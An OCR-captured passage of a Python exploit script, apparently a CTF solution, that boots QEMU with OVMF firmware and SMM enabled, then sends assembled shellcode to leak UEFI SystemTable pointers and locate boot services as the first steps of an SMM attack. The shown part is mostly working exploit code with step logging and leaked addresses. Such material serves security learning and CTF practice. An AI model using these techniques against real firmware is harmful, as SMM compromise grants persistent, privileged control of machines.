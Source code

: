 ```python
    "./qemu-system-x86_64 -d cpu_reset -no-reboot -machine q35,smm=on -cpu max -net none -serial stdio -display none -vga none -global ICH9-LPC.disable_s3=1 -global driver=cfi.pflash01,property=secure,value=on -drive if=pflash,format=raw,unit=0,file=OVMF_CODE.fd,readonly=on -drive if=pflash,format=raw,unit=1,file=OVMF_VARS_copy.fd -drive format=raw,file=fat:rw:rootfs -global isa-debugcon.iobase=0x402 -debugcon file:debug.log -s".split(),
    env={},
)

lianpwn.lg_inf(
    "STEP 0: Receive SystemTable and shellcode Address and Attach to Debugger"
)
ru(b"Address of SystemTable: 0x")
SystemTable_addr = int(rl(), 16)
ru(b"Address where I'm gonna run your code: 0x")
shellcode_addr = int(rl(), 16)

lianpwn.lg_inf("STEP 1: Defeat ASLR and Locate Funcs")


def dump_register(reg_list):
    assert len(reg_list) == 15
    for i in range(15):
        lianpwn.info(f"reg[{i}] -> {hex(reg_list[i])}")


def execute_shellcode(shellcode, cowsay=False):
    result = []
    shellcode = shellcode.hex().encode()
    s(shellcode + b"\r\n" + b"done\r\n")
    ru(b"Running...\r\n")
    if cowsay:
        ru(b"< ")
        return ru(b" >", "drop")
    for i in range(14):
        ru(b": 0x")
        result.append(int(ru(b"R", "drop"), 16))
    ru(b": 0x")
    result.append(int(ru(b"Done! Type more code\r\n", "drop"), 16))
    dump_register(result)
    return result


result = execute_shellcode(
    asm(f"""
    // locate BootServices, LocateProtocol, AllocatePool
    mov r15, [{SystemTable_addr + 0x60}];
    mov r14, [r15 + 0x140]; // LocateProtocol
    mov r13, [r15 + 0x40];  // AllocatePool
""")
)
AllocatePool_addr = result[12]
LocateProtocol_addr = result[13]
BootServices_addr = result[14]
lianpwn.lg_suc("AllocatePool_addr", AllocatePool_addr)
lianpwn.lg_suc("LocateProtocol_addr", LocateProtocol_addr)
lianpwn.lg_suc("BootServices_addr", BootServices_addr)

# result[13] --> 0x77f5210
# result[14] --> 0x4bd31b8
# gEfiSmmConfigurationProtocolGuid --> 0xa74bdad78bbef080492eb68926eeb3de
# SMBASE --> 0x778b000
test_guid = 0xA74BDAD78BBEF080492EB68926EEB3DE
tmp_buf = shellcode_addr + 0x400
```